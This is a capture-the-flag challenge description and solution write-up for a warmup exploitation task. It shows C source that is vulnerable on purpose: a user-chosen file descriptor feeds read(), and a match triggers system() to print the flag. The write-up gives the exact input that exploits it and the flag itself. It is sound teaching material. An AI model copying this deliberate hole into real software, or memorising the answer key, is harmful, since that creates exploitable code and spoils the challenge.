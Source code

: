 # Ezpwn 

Difficulty Level: Warmup
 
Yay! Finally getting to do some exploiting! Make it concatenate the flag file
 
Connect via `nc challenge.ctf-fun.xyz 14003`
 
PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- Check out what [read](https://man7.org/linux/man-pages/man2/read.2.html) is about, particularly on how to get input from [STanDard INput](https://www.geeksforgeeks.org/input-output-system-calls-c-create-open-close-read-write/)
P.S: You might need to convert the hexadecimal (0x123) to decimal


## Deployment

```bash
cd service
sudo ./ezpwn.sh &
```

## Solution

#### Quick intro to file descriptors
File descriptors simply are indicators or handles used to access a file or i/o (input/output) resource , File descriptors are represented in C as integers and there are 3 types of file descriptors :
| Descriptor               | Value |
| ------------------------ | ----- |
| standard input (stdin)   | 0     |
| standard output (stdout) | 1     | 
| standard error (stderr)  | 2     |

We are given the source code as well as the compiled binary for this challenge.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc){
    char buf[32] = {0x00};
    int number = 0x00;

    setbuf(stdout, NULL);

    printf("Number? ");
    scanf("%d", &number);

    int fd = number - 0x13371;
    int len = read(fd, buf, 32);

    if (!strcmp("GIVEFLAGPLS\n", buf)) {
        system("/bin/cat flag.txt");
        exit(0);
    }

    return 0;
}
```
The first portion asks for a number which saves to `number`
```c
printf("Number? ");
scanf("%d", &number)
```
It then tries to read with file descriptor `fd`
```c
int fd = number - 0x13371;
int len = read(fd, buf, 32);
```

We then see that `buf` variable needs to match `GIVEFLAGPLS\n` to print the flag.
```c
if (!strcmp("GIVEFLAGPLS\n", buf)) {
    system("/bin/cat flag.txt");
    exit(0);
}
```
In order to be able to write to `buf` we need to ensure `fd` is set to 0 so that `read(fd, buf, 32)` will read from **stdin**. Thus we need to provide a **decimal** number equal to `0x13371`, this can be simply found by typing it in the programmer mode of window's calculator which we get `78705`.

```bash
nc challenge.ctf-fun.xyz 14003

Number? 78705
GIVEFLAGPLS
19C4{d35cr1b3_f1l3_1n_0n3_1n7363r}
```
### Flag
19C4{d35cr1b3_f1l3_1n_0n3_1n7363r}